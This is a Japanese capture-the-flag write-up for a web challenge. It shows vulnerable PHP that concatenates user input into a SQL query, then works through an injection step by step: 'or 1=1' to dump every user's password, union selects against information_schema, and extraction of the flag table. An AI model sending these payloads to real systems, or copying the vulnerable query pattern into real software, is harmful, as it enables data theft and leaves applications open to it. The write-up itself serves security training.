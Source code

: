 # User list (400pt 6solves)

とあるサイトで流出したパスワードをゲットしたので、リストを公開しています  

(url)

## 配布ファイル

[distfiles](../distfiles)

## ヒント

パスワードのテーブルにはflagは無いようです。  
他のテーブルを参照する方法はないでしょうか？

アクセスすると以下のようなかんじ

![userlist](./img/userlist.png)

burpで通信を覗いてみると、選択したユーザ名をPOSTしてる。

```txt
POST / HTTP/1.1
 :
user=admin
```

> burpがない場合はブラウザの開発者ツールでも通信内容は見れる。

ソースコードを見てみる。

```php
<?php
ini_set('mysqlnd.net_read_timeout', 5);
try {
    $db = new PDO('mysql:host=' . $_ENV["DB"] . ';dbname=users', 'y0d3n', 'password');
    $sql = 'SELECT name,pass FROM user WHERE name LIKE  \'' . $_POST["user"] . '\';';
    $stmt = $db->prepare($sql);
    $stmt->execute();
    $result = $stmt->fetchAll(PDO::FETCH_ASSOC);
} catch (PDOException $e) {
    echo $e->getMessage();
    exit;
} ?>
```

`'SELECT name,pass FROM user WHERE name LIKE  \'' . $_POST["user"] . '\';'`の部分でSQLiできそう。  
`or 1=1`でやってみる。

```txt
POST / HTTP/1.1
  :
user=admin'+or+1=1;--
```

> ここでの`+`は半角スペースを意味します。("urlエンコード 空白"で検索)

![or1=1](./img/or1=1.png)

> cmdでも再現できます。 `curl -X POST [url] --data "user='or 1=1;--`"

SQLiができて、6人のユーザ名とパスワードが出てきた。しかしflagは見当たらない。  

`union select`してみる。  
ソースコードを読んだところ、DBはmysqlでカラムは2つなのでunionで2つselectするように書く。

```txt
POST / HTTP/1.1
  :
user='union+select+table_name,"a"+from+information_schema.tables;--
```

![table_name](./img/table_name.png)

テーブル一覧がでてきて、下の方に`flag`というテーブルがある。カラムを調べる。

```txt
POST / HTTP/1.1
  :
user='union+select+column_name,"a"+from+information_schema.columns+where+table_name='flag';--
```

![column_name](./img/column_name.png)

`fl4g`というカラムがあるらしい。  
flagをselectする。

```txt
POST / HTTP/1.1
  :
user='union+select+fl4g,"a"+from+flag;--
```

![flag](./img/flag.png)

`flag{sql_1nj3ct10n_c4n_l00k_4t_0th3r_t4bl3s}`
